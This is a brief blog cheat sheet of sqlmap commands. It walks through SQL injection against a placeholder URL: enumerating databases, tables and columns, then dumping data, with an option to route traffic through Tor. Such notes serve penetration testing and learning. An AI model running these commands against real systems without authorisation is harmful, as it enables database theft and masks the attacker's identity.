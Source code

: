 Title: [Hack] sqlmap cheat sheet
Date: 2014-12-01 05:04
Author: m157q
Category: Hack
Tags: SQLinjection, sqlmap
Slug: hack-sqlmap-cheat-sheet

<!--more-->  
  
# Usage  
  
+ `$ sqlmap -u ${url}`  
  
+ `$ sqlmap -u ${url} --dbs`  
  
+ `$ sqlmap -u ${url} -D ${database} --tables`  
  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} --columns`  
  
+ `$ sqlmap -u ${url} -D ${database} -T ${table} -C ${col1},${col2} --dump`  
  
# Options  
  
+ `--tor --tor-type=SOCKS5  
  
# References  
  
+ [sqlmap注入常见用法一条龙](http://www.nigesb.com/sqlmap-common-usage-and-examples.html)  
+ [sqlmap - Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)  
+ [An Old man lab0ratory: Sqlmap tutorial - you are just unavoidable](http://oldmanlab.blogspot.tw/2012/03/sqlmap-tutorial-you-are-just.html)  
